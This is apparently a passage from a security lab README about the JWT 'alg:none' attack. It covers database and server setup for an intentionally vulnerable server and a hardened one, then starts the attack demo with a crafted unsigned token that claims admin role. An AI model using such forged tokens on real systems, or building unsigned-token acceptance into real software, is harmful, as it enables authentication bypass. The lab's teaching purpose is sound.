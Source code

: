 ### 4. Initialize the Database

If a DB initializer is provided:

```bash
npm run init-db
# or
node init-db.js
```

This creates `users.db` and example users with hashed passwords.

### 5. Run the Servers

We recommend adding scripts to `package.json` like:

```json
"scripts": {
  "start-vuln": "node vuln-server.js",
  "start-secure": "node secure-server.js",
  "init-db": "node init-db.js"
}
```

Run the vulnerable server:

```bash
npm run start-vuln
# Vuln server default: http://localhost:1234
```

Run the hardened secure server (use a different port, e.g. 1235):

```bash
npm run start-secure
# Secure server default: http://localhost:1235
```

---

## 💥 Demonstrating the 'alg:none' Attack

Below are concrete reproduction steps used in the lab.

### 1. Attacking the Vulnerable Server (Successful ✅)

**Why this works on `vuln-server.js`:**
`vuln-server.js` reads the token header and intentionally accepts tokens where `header.alg === 'none'`. It decodes the payload and trusts it without verifying a signature.

**Craft unsigned token (for demo)**

* Header: `{"alg":"none"}`
* Payload: `{"sub":"admin","role":"admin"}`
* Token (base64url header + "." + base64url payload + "."):

```
eyJhbGciOiAibm9uZSJ9.eyJzdWIiOiAiYWRtaW4iLCAicm9sZSI6ICJhZG1pbiJ9.
```

